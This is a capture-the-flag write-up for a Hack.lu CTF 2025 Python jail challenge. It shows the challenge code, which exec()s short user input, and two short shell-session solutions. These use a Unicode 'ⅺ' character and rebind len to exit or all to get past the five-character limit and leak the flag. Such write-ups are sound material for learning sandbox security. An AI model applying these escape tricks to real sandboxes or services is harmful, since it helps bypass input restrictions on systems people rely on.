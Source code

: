# Hack.lu CTF 2025 FÄNGELSE

```python
flagbuf = open("flag.txt", "r").read()

while True:
    try:
        print(f"Side-channel: {len(flagbuf) ^ 0x1337}")
    # Just in case..
    except Exception as e:
        # print(f"Error: {e}") # don't want to leak anything
        exit(1337)
    code = input("Code: ")
    if len(code) > 5:
        print("nah")
        continue
    exec(code)
```

Requirements:

1. No more than 5 characters: use `exit(flagbuf)` to leak flag, use `a=exit;len=a` to override function in two steps, use `ⅺ` for `xi` to break the length limitation

Solution by @moritz on Discord:

```shell
$ xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=eⅺt
Side-channel: 4890
Code: len=a
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
```

The length of `a=exit` is 6, but using [`ⅺ` (Unicode U+217A)](https://www.compart.com/en/unicode/U+217A) reduces it to 5. Then, `exit(flagbuf)` is called to print the flag.

Solution by @xtea418 on Discord:

```shell
$ nc xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=all
Side-channel: 4890
Code: len=a
Side-channel: 4918
Code: print(flagbuf)
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
Side-channel: 4918
```

Idea: override `len=all`, so the length check `all(code) > 5` is bypassed.

